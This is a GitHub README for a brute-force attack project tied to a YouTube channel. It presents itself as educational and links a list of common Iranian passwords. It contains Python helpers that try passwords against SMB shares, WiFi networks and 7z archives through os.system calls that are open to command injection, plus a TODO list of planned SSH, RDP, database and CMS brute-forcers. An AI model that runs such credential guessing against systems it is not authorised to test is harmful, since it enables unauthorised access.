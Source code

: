 # Brute-force attack

**Author:** Peyman Majidi Moein (aka Peymanx) and Ai

This project is related to a YouTube video on the [peymanx](https://www.youtube.com/@peymanx) channel.

## Table of Contents

- [Introduction](#introduction)
- [Sample Code](#sample-code)
- [Resources](#resources)
- [License](#license)
- [TODO](#todo)

## Introduction

This repository contains various scripts and tools for performing brute-force attacks on different systems. The primary goal is to demonstrate the vulnerabilities and educate users on the importance of strong passwords and security measures.  

This repository contains a list of commonly used [passwords in Iran](./passwords/commons_iranians.txt). It's designed to help developers and security professionals understand password patterns in the region, improve password policies, and enhance security measures

## Preview

## Sample Code

```python

def connect_to_smb(ip, username, password):
    command = f'net use \\\\{ip} /user:{username} {password} >nul 2>&1'
    result = os.system(command)
    return result == 0


def connect_to_wifi(ssid, password):
    profile_path = create_wifi_profile(ssid, password)
    add_profile_command = f'netsh wlan add profile filename="{profile_path}"'
    connect_command = f'netsh wlan connect name="{ssid}"'
    os.system(add_profile_command)
    result = os.system(connect_command)
    os.remove(profile_path)
    return result == 0

def connect_to_zip(file, password):
    command = f'7z x "{file}" -p"{password}" -y >nul 2>&1'
    result = os.system(command)
    return result == 0


```


## Resources

- [SecLists is the security tester's companion. It's a collection of multiple types of lists used during security assessments](https://github.com/danielmiessler/SecLists)
- [Persian Words Jadi 😍](https://github.com/jadijadi/persianwords)
- [Iranian-Password-list](https://github.com/Dih4v/Iranian-Password-list)
- [Wikipedia](https://en.wikipedia.org/wiki/List_of_the_most_common_passwords)

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## TODO

- [ ] **Windows Login Authentication (SMB) Brute-force**  
- [ ] **WiFi Network Password Cracking (Brute-force)**  
- [ ] **Encrypted Archive (ZIP, RAR, etc.) Password Cracking**  
- [ ] **Email Account Credential Brute-force**  
- [ ] **PDF File Password Recovery (Brute-force)**  
- [ ] **SSH Remote Login Brute-force Attack**  
- [ ] **RDP (Remote Desktop Protocol) Credential Brute-force**  
- [ ] **SQL Server Database Login Brute-force**  
- [ ] **MySQL Database Authentication Brute-force**  
- [ ] **Telnet Service Credential Brute-force**  
- [ ] **FTP Server Login Brute-force**  
- [ ] **HTTP/HTTPS Basic Authentication Brute-force**  
- [ ] **LDAP Directory Login Brute-force**  
- [ ] **VNC (Virtual Network Computing) Login Brute-force**  
- [ ] **Oracle Database Credential Brute-force**  
- [ ] **VPN Connection Authentication Brute-force**  
- [ ] **WordPress Admin Panel or Joomla CMS Admin Login Brute-force**
- [ ] TODO for updating TODOs ? 
- [ ] Error ckecking and validation
- [ ] Add GUIs: Graphical User Interface

